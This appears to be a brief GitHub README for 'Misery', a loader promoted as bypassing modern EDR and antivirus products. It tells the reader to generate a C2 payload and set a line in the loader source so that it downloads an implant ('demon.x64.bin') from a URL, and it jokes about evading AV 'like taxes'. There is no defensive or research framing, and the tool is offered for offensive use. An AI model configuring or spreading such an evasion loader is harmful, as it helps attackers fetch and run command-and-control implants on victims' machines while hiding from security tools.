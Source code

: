 # Misery
## Misery Loader to bypass modern EDR solutions 🖥️ 🛠️
![miserybanner](https://i.imgur.com/yCk788y.jpeg)


### 📁 Generate the payload with the c2 of your choice(*.bin)
### 🥷 If you want debug output, uncomment all printf lines
### 🏷️Change line 268 -> LPCWSTR szUrl = L"http://127.0.0.1/demon.x64.bin"

## 🪙 Evade Av Like Taxes

